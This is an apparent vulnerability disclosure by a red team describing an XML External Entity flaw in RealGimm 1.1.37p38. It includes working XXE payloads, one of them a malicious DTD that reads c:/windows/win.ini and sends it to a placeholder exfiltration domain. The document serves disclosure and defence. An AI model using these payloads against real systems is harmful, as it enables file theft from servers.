 # CVE-ID | RealGimm by GruppoSCAI - XML External Entity Injection
An XML External Entity injection vunerability was found in RealGimm version 1.1.37p38. What follows is a description of the steps taken to perform the exploit.

## Proof of Concept
First of all, we access the function in which the vulnerability is present by clicking on *Gest. Tecnica -> Manutenzioni -> Scheda Visita/Manutenz.* and we click on the import icon:

![Import XML Functionality](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/d31fdfd0-63ef-4450-8d32-d90098de6232)

Below the file import window:

![File import window](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/9a29bcc2-934e-4b61-8ebb-edecca0e141a)


To demonstrate the presence of the vulnerability, we first create a file with the following content and import it using the functionality offered by the web application:

```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://[burp collaborator URL]"> %xxe; ]>
```
![File test.xml with payload](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/5d03b262-d80a-480c-88bb-7bbd1fe9234e)

![Import test.xml](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/72bf13ad-c62c-4435-a3c7-73152f753a5d)


Below the intercepted request and response:

![Request and response](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/29790c98-d650-4b4b-9d32-59af598df027)


As seen in the following image, the test.xml file containing the malicious payload is successfully parsed and a http request is issued to the burp collaborator domain:

![Request recevied in burp collaborator](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/513a3abc-574d-484b-ac4f-2487fb77be5e)


Using the vulnerability just described, it is also possible to read any file present on the file system where the xml parser is running. For this purpose, on our attacking machine, we define a malicious.dtd dtd file that allows exfiltrating the contents of file c:/windows/win.ini:

```
<!ENTITY % file SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://[exiltration domain]/?x=%file;'>">
%eval;
%exfiltrate;
```
![Malicious dtd file](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/7b78dcd3-cdba-4f94-b3dc-0160549fb14d)


We accordingly update the previously used test.xml file with the following content:
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://[exfiltration domain]/malicious.dtd"> %xxe; ]>
```
So let's import the test.xml file as we did previously.
![malicious test.xml](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/ae8646bd-0365-40d3-a0c4-c2403b3d91a8)
![test.xml import](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/04d3efae-6090-489a-8e60-eaeabf90e465)


As can be seen from the following image, from the web server logs, we can successfully exfiltrate the contents of the win.ini file:
![win.ini exfiltrated](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/69cffda1-8b57-4b92-8cd0-297f4296b946)


Below is the decoded content of the exfiltrated file:
![win.ini decoded](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/b791a414-78ba-4507-a4e9-d1c129b92c52)


## Vulnerable version of RealGimm

As a result of our testing, version 1.1.37p38 is considered to be affected by this vulnerability. 

## Discovered by

Paolo Caminati

Claudio Rimensi

Francesco Mercatili
